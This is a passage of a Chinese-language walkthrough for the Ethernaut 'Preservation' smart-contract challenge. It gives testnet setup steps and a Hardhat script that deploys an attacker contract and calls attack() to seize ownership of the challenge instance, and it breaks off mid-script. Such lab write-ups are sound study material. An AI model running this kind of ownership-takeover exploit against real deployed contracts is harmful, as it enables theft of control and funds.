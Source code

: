 ```solidity
    function setFirstTime(uint256 _timeStamp) external;
    function setSecondTime(uint256 _timeStamp) external;
}
```

## 環境設置

### 前置條件

- Node.js 16+
- npm 或 yarn
- MetaMask 錢包
- 一些測試網 ETH (如 Sepolia)

### 安裝步驟

1. 複製專案
```bash
git clone https://github.com/your-username/ethernaut-solutions.git
cd ethernaut-solutions/16-preservation
```

2. 安裝依賴
```bash
npm install
# 或使用 yarn
yarn install
```

## 執行攻擊腳本

我們使用 Hardhat 腳本來解決挑戰：

```typescript
import hre from "hardhat";
const { ethers } = hre;

// 改為你的目標合約地址
const CONTRACT_ADDRESS = "YOUR_PRESERVATION_INSTANCE_ADDRESS";

async function main() {
    const [signer] = await ethers.getSigners();
    console.log("我的帳戶地址 : ", signer.address);

    const preservation = await ethers.getContractAt("Preservation", CONTRACT_ADDRESS);
    console.log("Preservation 關卡實例地址: ", CONTRACT_ADDRESS);
    console.log("目前的 Preservation owner: ", await preservation.owner());

    // =========進攻開始===========
    const PreservationAttacker = await ethers.getContractFactory("PreservationAttacker");
    const preservationAttacker = await PreservationAttacker.deploy(CONTRACT_ADDRESS);
    await preservationAttacker.waitForDeployment();
      
    console.log("PreservationAttacker Contract deployed to: ", await preservationAttacker.getAddress());
    console.log("目前的 PreservationAttacker owner: ", await preservationAttacker.owner());
    
    const tx = await preservationAttacker.attack();
    await tx.wait();

    console.log("目前的 Preservation owner: ", await preservation.owner());
}

main().catch((error) => {
```